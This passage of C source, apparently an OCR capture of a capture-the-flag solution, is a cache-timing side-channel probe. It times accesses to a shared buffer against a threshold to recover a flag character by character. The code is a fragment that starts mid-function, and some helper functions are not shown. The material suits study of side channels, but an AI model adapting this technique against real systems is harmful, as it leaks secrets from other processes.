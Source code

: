 ```

	register unsigned j,i;
	register unsigned used;
	register unsigned long time_fast;

	j=0;
	while (j<PROBE_AMMOUNT_ORDER){
	  
	  for (i=0;set[i]!='\0';i++){
		used=set[i]-'-';

		time_fast=probe_timing((char *)(&base[G*used]));
	 	if(time_fast < threshold ){
			output[j]=used+'-';
			j++;
		}	
	  }
	}
	output[j]='\0';
}

int main(){
	wchar_t *base;
	int i,j;
	//'}' - '-' = 0x50
	//total of chars to test
	int dict[0x52];
	unsigned char valids[0x52];
	char flag[PROBE_AMMOUNT_ORDER+1];

	computeThreshold();
	printf("using threshold 0x%x \n",threshold);

	base=getEmojis();
	memset((void *)dict,0,sizeof(int)*0x52);

	unsigned char set0[]="M\\AV/K?e0DkC";
	unsigned char set1[]="G]bYt|NWwJC";
	unsigned char set2[]="ongP9H6vhzC";
	unsigned char set3[]="p-xRQ.2rXUC";
	unsigned char set4[]=">;71=`4l5jC";
	unsigned char set5[]="d3^B@{[L<fC";
	unsigned char set6[]="uSyTOsZi8C";
	unsigned char set7[]="cIEa_mqF}:C";


	watch(base,set0,dict);
	watch(base,set1,dict);
	watch(base,set2,dict);
	watch(base,set3,dict);
	watch(base,set4,dict);
	watch(base,set5,dict);
	watch(base,set6,dict);
	watch(base,set7,dict);
	
	
	j=0;
	for (i=0;i<0x51;i++){
	  if(dict[i]>4){
            valids[j]=(char)(i+'-');
	    j++;
	  }
	}
```